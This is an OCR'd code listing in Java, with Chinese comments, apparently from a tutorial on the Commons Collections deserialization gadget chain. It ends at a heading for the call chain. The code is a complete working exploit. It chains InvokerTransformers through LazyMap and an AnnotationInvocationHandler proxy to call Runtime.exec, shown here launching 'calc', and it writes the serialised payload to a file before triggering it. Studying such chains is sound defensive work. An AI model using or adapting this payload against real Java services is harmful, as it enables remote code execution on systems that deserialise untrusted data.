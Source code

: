 ```java
    public static Object generatePayload() throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class }, new Object[] { "calc" })
        };
        Transformer transformerChain = new ChainedTransformer(transformers);

        Map innermap = new HashMap();
        innermap.put("value", "xxx");
        Map outmap = LazyMap.decorate(innermap,transformerChain);
        //通过反射获得AnnotationInvocationHandler类对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        //通过反射获得cls的构造函数
        Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);
        //这里需要设置Accessible为true，否则序列化失败
        ctor.setAccessible(true);
        //通过newInstance()方法实例化对象
        InvocationHandler handler = (InvocationHandler)ctor.newInstance(Retention.class, outmap);
        Map mapProxy = (Map)Proxy.newProxyInstance(LazyMap.class.getClassLoader(),LazyMap.class.getInterfaces(),handler);
        Object instance = ctor.newInstance(Retention.class, mapProxy);

        return instance;
    }
    public static void main(String[] args) throws Exception {
        payload2File(generatePayload(),"obj");
        payloadTest("obj");
    }
    public static void payload2File(Object instance, String file)
            throws Exception {
        //将构造好的payload序列化后写入文件中
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(file));
        out.writeObject(instance);
        out.flush();
        out.close();
    }
    public static void payloadTest(String file) throws Exception {
        //读取写入的payload，并进行反序列化
        ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
        in.readObject();
        in.close();
    }
}
```

## 调用链
